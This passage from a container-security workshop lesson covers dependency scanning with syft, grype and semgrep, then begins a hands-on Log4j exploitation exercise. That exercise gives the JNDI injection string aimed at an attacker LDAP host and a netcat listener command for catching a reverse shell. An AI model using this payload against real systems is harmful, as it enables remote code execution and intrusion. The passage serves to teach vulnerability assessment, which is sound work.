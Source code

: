 Our initial vulnerability scans of software dependencies and container images highlighted Log4j vulnerabilities.  Additionally, `semgrep` highlighted;

> an attacker could forge log entries **or include malicious content**.

in our source code, where request parameters are being passed into logging statements.  It seems like we should try and exploit this to find out if we are at risk!

### Summary

In this section we;

- Created a Software Bill of Materials (SBoM) using `syft` of our application.
- Scanned our software dependencies for vulnerabilities using the SBoM coupled with a vulnerability database using `grype`.
- Identified additional dependencies introduced in our environment through the base container image.
- Used `semgrep` to perform Static Application Security Testing (SAST) to highlight vulnerable lines of code.

## 3. Vulnerability Exploitation (Outcome 2.2)

### Exploitation

Whilst we will not be going into the specifics of the Log4j vulnerability in this lesson, know that in the vulnerable versions of this library, it allows us to reference remote code and have this executed in the context of the application.  We call this Remote Code Execution (RCE) and is considered perhaps one of the most severe type of vulnerability.

In the Log4j vulnerability this can be triggered in our application with the special string;

```
${jndi:ldap://exploit:1389/Exploit}
```

which needs to be passed into the Log4j logging library. What parameters were logged?  Could we try this in our registration form?

> TODO: Update diagram
<img width="982" alt="Screen Shot 2022-09-01 at 12 07 38 pm" src="https://user-images.githubusercontent.com/49122574/187829554-16548070-c060-4950-90e4-a983341e4e43.png">

The exploit will connect to our attackers machine we call the `listener`.  This will allow us to execute commands as if we were inside the application container.

1. Open another terminal window in the `techtonic22-vulnerabilities/` folder.
2. Start the listener to wait for a connection for when the vulnerability is exploited.  Run the following commands in this new terminal window.

    ```shell
    docker-compose exec listener sh
    ```

    ```shell
    nc -lnvp 4444
    ```
